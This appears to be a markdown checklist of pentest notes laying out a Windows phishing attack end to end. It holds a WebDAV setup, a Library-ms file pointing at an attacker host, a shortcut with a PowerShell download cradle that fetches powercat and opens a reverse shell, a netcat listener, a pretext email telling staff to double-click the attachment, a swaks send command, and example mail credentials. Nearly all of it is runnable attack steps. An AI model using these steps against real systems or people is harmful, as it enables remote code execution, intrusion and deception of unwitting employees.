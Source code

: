 
- [ ] Install WsgiDAV on your Kali Machine
```
pip3 install wsgidav
```

- [ ] Create a folder to serve files on WsgiDAV on your Kali Machine
```
mkdir /home/kali/Desktop/webdav
```

- [ ] Start WsgiDAV on port 80 on your Kali Machine
```
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/Desktop/webdav
```

- [ ] Create "`config.Library-ms`" Windows Library file for connecting to our WsgiDAV on your Windows Preparation machine and transfer to your Kali machine
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.xxx.xxx</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

- [ ] Start Python web server to serve `config.Library-ms` and `PowerCat.ps1` on your Kali machine
```
python3 -m http.server 80
```

- [ ] Copy `PowerCat.ps1` to the python web server directory folder on your Kali Machine
```
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
```

- [ ] Transfer `config.Library-ms` to the python web server directory folder on your Kali Machine

- [ ] Create a shortcut "`automatic_configuration.lnk`" with a PowerShell Download Cradle and PowerCat Reverse Shell Execution downloaded from python web server on your Windows Preparation machine and transfer to your Kali Machine
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.xxx.xxx:8000/powercat.ps1');powercat -c 192.168.xxx.xxx -p 4444 -e powershell"
```

- [ ] Transfer Windows Shortcut to WsgiDAV folder on your Kali Machine

- [ ] Set up netcat reverse shell listener on your Kali Machine
```
nc -nlvp 4444
```

- [ ] Create a new file "`body.txt`" for phishing email on your Kali Machine
```
Hi all,

I'm a new member of the IT Team. 

Attached is a file to automatically apply some configurations.

Please download the attachment and double-click "automatic_configuration"

Please let me know if you have any questions or concerns!

Regards,
Someuser
```

- [ ] Send email using swaks on your Kali Machine
```
sudo swaks -t victim@thedomain.com --from someuser@thedomain.com -ap --attach config.Library-ms --server 192.168.yyy.yyy --body body.txt --header "Subject: Problems" --suppress-data
```
- Requires credentials to login to mail server
```
mailserveruser
MA1lSeVerP@ssw0rd
```

- [ ] Catch reverse shell on your Kali Machine